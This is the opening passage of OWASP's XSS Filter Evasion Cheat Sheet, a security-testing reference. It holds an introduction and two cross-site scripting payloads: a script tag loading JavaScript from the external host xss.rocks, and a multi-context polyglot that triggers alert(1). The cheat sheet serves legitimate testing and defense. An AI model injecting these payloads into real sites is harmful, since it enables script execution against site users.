 ```yaml
---

layout: col-sidebar
title: XSS Filter Evasion Cheat Sheet
author: Jim Manico
contributors: Abdullah Hussam, Michael McCabe, Luke Plant, Randomm, David Shaw, ALange, Matt Tesauro, Adam Caudill, Anandu,
              DhirajMishra, Ono, Bill Sempf, Dan Wallis, Peter Mosmans, Dominique Righetto
tags: XSS, Cheat Sheets
permalink: /xss-filter-evasion-cheatsheet
---
```


# Introduction

This article is focused on providing application security testing professionals with a guide to assist in Cross Site Scripting testing. The initial contents of this article were donated to OWASP by RSnake, from his seminal XSS Cheat Sheet, which was at: `http://ha.ckers.org/xss.html`. That site now redirects to its new home here, where we plan to maintain and enhance it. The very first OWASP Prevention Cheat Sheet, the [Cross Site Scripting Prevention Cheat Sheet](https://owasp.org/www-project-cheat-sheets/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html), was inspired by RSnake's XSS Cheat Sheet, so we can thank him for our inspiration. We wanted to create short, simple guidelines that developers could follow to prevent XSS, rather than simply telling developers to build apps that could protect against all the fancy tricks specified in rather complex attack cheat sheet, and so the [OWASP Cheat Sheet Series](https://owasp.org/www-project-cheat-sheets/) was born.

# Tests

This cheat sheet lists a series of XSS attacks that can be used to bypass certain XSS defensive filters. Please note that input filtering is an incomplete defense for XSS which these tests can be used to illustrate.

## Basic XSS Test Without Filter Evasion

This is a normal XSS JavaScript injection, and most likely to get caught but I suggest trying it first (the quotes are not required in any modern browser so they are omitted here):

    <SCRIPT SRC=http://xss.rocks/xss.js></SCRIPT>

## XSS Locator (Polygot)

The following is a "polygot test XSS payload." This test will execute in multiple contexts including html, script string, js and url. Thank you to [Gareth Heyes](https://twitter.com/garethheyes) for this [contribution](https://twitter.com/garethheyes/status/997466212190781445).

    javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>

## Image XSS using the JavaScript directive
